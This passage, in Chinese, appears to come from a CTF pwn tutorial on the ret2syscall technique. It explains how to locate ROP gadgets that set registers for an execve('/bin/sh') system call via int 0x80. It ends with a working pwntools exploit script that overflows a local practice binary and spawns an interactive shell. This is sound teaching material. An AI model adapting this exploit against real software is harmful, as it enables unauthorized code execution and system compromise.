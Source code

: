 eax是系统调用号，后三个则是传入参数。

在满足以上条件后再执行int 0x80，程序便会执行execve('/bin/sh', NULL, NULL)，因此接下来就是找到我们期望的gadget

首先找到可以控制eax的gadget

![Alt text](image/ret2syscall_eax.png)

然后我们试一下有没有可以同时控制ebx，ecx，edx的gadget
![Alt text](image/ret2syscall_ebx_edx_ecx.png)

再找到能执行int的指令

![Alt text](image/ret2syscall_int.png)


由此可以构造payload
```python
from pwn import*

offset = 112

pop_eax_addr = 0x080bb196
pop_edx_ecx_ebx_addr = 0x0806eb90
bin_sh_addr = 0x080be408
int_0x80_addr = 0x08049421

proc = process("./pwn/ret2syscall/ret2syscall")

proc.sendline(b'A' * offset \
        + p32(pop_eax_addr) + p32(0x0b) \
        + p32(pop_edx_ecx_ebx_addr) + p32(0x00) + p32(0x00) + p32(bin_sh_addr) \
        + p32(int_0x80_addr))

proc.interactive()
```
